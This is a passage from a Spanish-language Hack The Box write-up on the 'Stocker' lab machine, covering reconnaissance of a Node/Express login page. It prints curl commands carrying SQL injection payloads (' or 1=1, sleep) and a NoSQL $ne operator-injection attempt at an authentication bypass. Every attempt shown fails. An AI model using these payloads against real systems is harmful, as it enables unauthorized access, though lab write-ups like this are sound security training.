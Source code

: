 ```bash
Location: /login
< Vary: Accept
Vary: Accept
< Set-Cookie: connect.sid=s%3AAqXpouaZNkKv1VkwiWJNKGzTULe4csBN.pelTgGT%2BuVN9nhF7WPaBGq5y2pltzSvT43wY9wWX0rQ; Path=/; HttpOnly
Set-Cookie: connect.sid=s%3AAqXpouaZNkKv1VkwiWJNKGzTULe4csBN.pelTgGT%2BuVN9nhF7WPaBGq5y2pltzSvT43wY9wWX0rQ; Path=/; HttpOnly
```
{: .nolineno}

Es importante observar cada detalle de la web que estamos auditando, asi podemos deducir el lenguaje con el que esta programado la aplicacion web.

{: .nolineno}

![](htb-writeup-stocker/stocker2.png)

{: .nolineno}

Tenemos un panel de acceso a login, puede ser vulnerable a SQL injection o NoSQL injection, vamos a comprobarlo ahora, hay mas probabilidad de que sea vulnerable a NoSQLI por diferentes motivos, una de ellas es que en las tecnologias que implementa aplicacion web es que esta desarrollado en Express JS y NodeJS, maneja entradas de application/json

### SQL Injection

```bash
curl dev.stocker.htb/login -d "username='&password=test"; echo
Found. Redirecting to /login?error=login-error

curl dev.stocker.htb/login -d "username='+or+1=1--+-&password=test"; echo
Found. Redirecting to /login?error=login-error

curl dev.stocker.htb/login -d "username='+or+sleep(10)--+-&password=test"; echo
Found. Redirecting to /login?error=login-error

curl dev.stocker.htb/login -d $'{"username":"\'","password":"test"}' -H 'Content-Type: application/json'; echo
Found. Redirecting to /login?error=login-error

curl dev.stocker.htb/login -d $'{"username":"\' or 1=1-- -","password":"test"}' -H 'Content-Type: application/json'; echo
Found. Redirecting to /login?error=login-error
```

Siempre que vemos un panel de acceso quiero intentar bypassearlo de diferentes maneras, ya sea Inyecciones SQL o NoSQL (`'`,`"`) pero como dije antes, estas inyecciones fallaron porque creemos que por detras existe un Mongo DB y no un MySQL como base de datos, quiere decir que la vulnerabilidad puede estar por un NoSQLI

### NoSQL Injection y Bypass Authentication

```bash
curl dev.stocker.htb/login -d 'username[$ne]=test&password[$ne]=test'; echo
Found. Redirecting to /login?error=login-error
```
